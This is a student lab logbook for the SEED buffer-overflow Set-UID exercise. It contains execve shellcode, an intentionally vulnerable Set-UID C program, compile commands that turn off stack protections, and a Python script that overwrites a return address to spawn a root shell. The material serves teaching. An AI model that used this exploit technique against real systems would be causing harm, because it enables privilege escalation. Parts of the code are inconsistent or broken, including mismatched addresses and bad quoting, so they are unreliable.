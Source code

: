 # LOGBOOK 5

This document pretends to document the work that was  during week 5 of the FSI course - [link to guide](https://seedsecuritylabs.org/Labs_20.04/Files/Buffer_Overflow_Setuid/Buffer_Overflow_Setuid.pdf).

## Setting up: 

To work on this guide, we will need to change some settings regarding our shell. There are some countermeasures against buffer overflow attacks that we will ignore, by disabling address space randomization and configuring /bin/sh by linking it to another shell without buffer overflow countermeasures. StackGuard and non-executable stack will be turned off during compilation.

## Task 1

This task's aim is to show how shell-code injections work and what their effects are.

We are given 32 and 64-bit shellcode, that when compiled via makefile, generate two binaries, a32.out and a64.out.

If we run them, we will create a new shell inside our terminal, that will allow us to input commands.

``` c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>


const char shellcode[] =
#if __x86_64__
  "\x48\x31\xd2\x52\x48\xb8\x2f\x62\x69\x6e"
  "\x2f\x2f\x73\x68\x50\x48\x89\xe7\x52\x57"
  "\x48\x89\xe6\x48\x31\xc0\xb0\x3b\x0f\x05"
#else
  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
  "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
  "\xd2\x31\xc0\xb0\x0b\xcd\x80"
#endif
;

int main(int argc, char **argv)
{
   char code[500];

   strcpy(code, shellcode);
   int (*func)() = (int(*)())code;

   func();
   return 1;
}
```

![Task1](images/LOGBOOK5/git51.png)

## Task 2

The purpose of Task 2 is to understand the vulnerable program stack.c and how to exploit it to gain root privilege.

Here is its' source code:

```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
/* Changing this size will change the layout of the stack.
* Instructors can change this value each year, so students
* won’t be able to use the solutions from the past. */
#ifndef BUF_SIZE
#define BUF_SIZE 100
#endif

int bof(char *str){
    char buffer[BUF_SIZE];
    /* The following statement has a buffer overflow problem */
    strcpy(buffer, str);
    return 1;
}

int main(int argc, char **argv){
    char str[517];
    FILE *badfile;

    badfile = fopen("badfile", "r");
    fread(str, sizeof(char), 517, badfile);
    bof(str);
    printf("Returned Properly\n");
    return 1;
}
```

The program above presents a buffer overflow vulnerability. It starts by retrieving input from a file named "badfile" and then transfers this input to another buffer within the bof() function. The original input can extend up to 517 bytes, whereas the bof() buffer is constrained to BUF SIZE which is not enough to accommodate the entire 517 bytes. strcpy() has no boundary checks, making it susceptible to buffer overflows. This program also possesses elevated privileges as a Set-UID program, creating a scenario where an ordinary user, if capable of exploiting this buffer overflow vulnerability, could potentially attain root-level access.

We compile it and turn off StackGuard and the non-executable stack protections using the "-fno-stack-protector" and "-z execstack" options. We then make it a root-owned Set-UID program, by changing its' permissions.

```sh
$ gcc -DBUF_SIZE=100 -m32 -o stack -z execstack -fno-stack-protector stack.c
$ sudo chown root stack
$ sudo chmod 4755 stack
```

## Task 3

Our objective in this task is to exploit the buffer-overflow vulnerability in the target program. To achieve this, we'll use a debugger-based approach to pinpoint the vulnerability, using gdb to debug the stack-L1-dbg.

![Task3](images/LOGBOOK5/git52.png)

```py
#!/usr/bin/python3
import sys
shellcode= (
    "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
  "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
  "\xd2\x31\xc0\xb0\x0b\xcd\x80"
).encode(’latin-1’)
# Fill the content with NOP’s
content = bytearray(0x90 for i in range(517))

# Put the shellcode somewhere in the payload
start = 490
content[start:start + len(shellcode)] = shellcode

# Decide the return address value
# and put it somewhere in the payload

ret = 0xFFFFCB96 #if 32 bits senão 0x48
offset = 112 
L = 4 # Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + L] = (ret).to_bytes(L,byteorder=’little’)

# Write the content to a file
with open(’badfile’, ’wb’) as f:
f.write(content)
```

We initially set our starting point to 490 because the buffer size is 517 bytes, and our shellcode is 27 bytes in size, leaving us with 490 bytes for the buffer overflow. Our "ret" value is crucial for redirecting the program's execution flow to our shellcode. We have information that the value of "buf" is 0xffffc9fc. By adding 490 to 0xffffc9fc, we obtain our return address, which happens to be 0xffffcbe6.

The "offset" represents the position where we inject our return address to redirect the program's flow towards our shellcode. It's important to note that the address of the "ebp" is 0xffffca68, and since the buffer address is 0xffffc9fc, the "ebp" is located 108 bytes after "ebp." However, an additional 4 bytes must be accounted for, as the "ebp" size is 4 bytes.

To validate our setup, we need to open a terminal where both "exploit.py" and "stack_l1" are located. If we successfully obtain root shell access, our configuration is correct.
